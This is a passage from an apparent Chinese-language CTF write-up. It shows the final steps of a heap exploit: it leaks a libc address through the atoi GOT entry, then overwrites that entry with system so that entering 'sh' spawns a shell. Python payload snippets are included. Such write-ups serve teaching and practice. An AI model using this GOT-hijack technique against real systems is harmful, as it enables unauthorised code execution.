 10. renew(small) 
11. wipe(big)

重新 renew(small) 把 big_buf 指到 atoi 的 GOT entry 上，之後利用 wipe(big) 來 leak libc function address。

payload :

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1)*3
~~~

12. renew(small)
13. renew(big)

這裡在 renew 一次 small 設好 inuse bit

payload:

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1)*3
~~~

接著 renew(big) 把 atoi GOT hijack 成 system

這樣在選單的地方不用輸入 1 or 2 or 3 直接輸入 `sh\x00`

就可以造成 atoi('sh') -> system('sh') 拿到 shell。

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397